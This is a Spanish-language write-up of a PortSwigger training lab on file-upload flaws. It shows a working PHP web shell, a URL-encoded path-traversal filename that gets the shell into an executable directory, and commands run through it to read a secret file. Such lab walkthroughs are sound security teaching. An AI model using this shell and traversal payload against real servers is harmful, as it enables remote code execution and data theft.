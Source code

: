 ```yaml
---
title: File Upload Vulnerabilities Lab 3
date: 2024-11-25 12:26:00 +0800
author: Justice-Reaper
categories:
  - Portswigger
  - File Upload Vulnerabilities
tags:
  - File Upload Vulnerabilities
  - Web shell upload via path traversal
image:
  path: /assets/img/File-Upload-Vulnerabilities-Lab-3/Portswigger.png
---
```


## Skills

- Web shell upload via path traversal

## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene una `función` de carga de imágenes `vulnerable`, el servidor está configurado para `prevenir` la `ejecución` de `archivos` proporcionados por el usuario, pero esta restricción puede ser eludida explotando un `path traversal`. Para resolver el laboratorio, debemos subir una web shell básica en `PHP`, utilizarla para `extraer` el `contenido` del archivo `/home/carlos/secret` y enviar este secreto utilizando el botón proporcionado en la barra del laboratorio. Podemos `iniciar sesión` con nuestra propia cuenta utilizando las siguientes credenciales: `wiener:peter`

---
## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/File-Upload-Vulnerabilities-Lab-3/image_1.png)

Pulsamos en `My account` e `iniciamos sesión` con las credenciales `wiener:peter`

![](/assets/img/File-Upload-Vulnerabilities-Lab-3/image_2.png)

Vemos que existe un `campo` de `subida` de `archivos`

![](/assets/img/File-Upload-Vulnerabilities-Lab-3/image_3.png)

Si `inspeccionamos` con `donde` se `aloja` la `imagen` vemos que es en la ruta `/resources/images`

![](/assets/img/File-Upload-Vulnerabilities-Lab-3/image_4.png)

Nos creamos un archivo llamado `shell.php` y lo `subimos`

```
<?php
    echo "<pre>" . system($_REQUEST['cmd']) . "</pre>";
?>
```

Abrimos nuevamente el `inspector` de `chrome` y vemos que el archivo subido se aloja en `/files/avatars`

![](/assets/img/File-Upload-Vulnerabilities-Lab-3/image_5.png)

Si accedemos a `https://0af3002604e2eaaa825ad87900e80024.web-security-academy.net/files/avatars/shell.php` vemos que `no` se está `interpretando`

![](/assets/img/File-Upload-Vulnerabilities-Lab-3/image_6.png)

Al parecer los archivos `php` de este directorio `no` se `interpretan`, lo que debemos hacer es `subir` el `archivo` nuevamente y `capturar` la `petición` con `Burpsuite`. Una vez hecho esto vamos a efectuar un path traversal `filename="%2e%2e%2fshell.php"`, este payload es `../shell.php` pero tenemos que `url encodearlo` porque nos elimina el `../`

```
Content-Disposition: form-data; name="avatar"; filename="%2e%2e%2fshell.php"
Content-Type: application/x-php

<?php
    echo "<pre>" . system($_REQUEST['cmd']) . "</pre>";
?>
```

Si accedemos a `https://0a4700a403b7d67580dde9b000e30030.web-security-academy.net/files/shell.php?cmd=whoami` veremos que hemos logrado un `RCE (Remote Code Execution)` debido a que el `path traversal` ha sido exitoso y el directorio `/files` no tenía `ninguna restricción` a la hora de `interpretar` archivo `php`

![](/assets/img/File-Upload-Vulnerabilities-Lab-3/image_7.png)

`Listamos` el `contenido` de la `home` de carlos `https://0a4700a403b7d67580dde9b000e30030.web-security-academy.net/files/shell.php?cmd=ls%20/home/carlos`

![](/assets/img/File-Upload-Vulnerabilities-Lab-3/image_8.png)

Obtenemos el contenido del archivo secret `https://0a4700a403b7d67580dde9b000e30030.web-security-academy.net/files/shell.php?cmd=cat%20/home/carlos/secret`

![](/assets/img/File-Upload-Vulnerabilities-Lab-3/image_9.png)

`Submiteamos` la `solución`

![](/assets/img/File-Upload-Vulnerabilities-Lab-3/image_10.png)
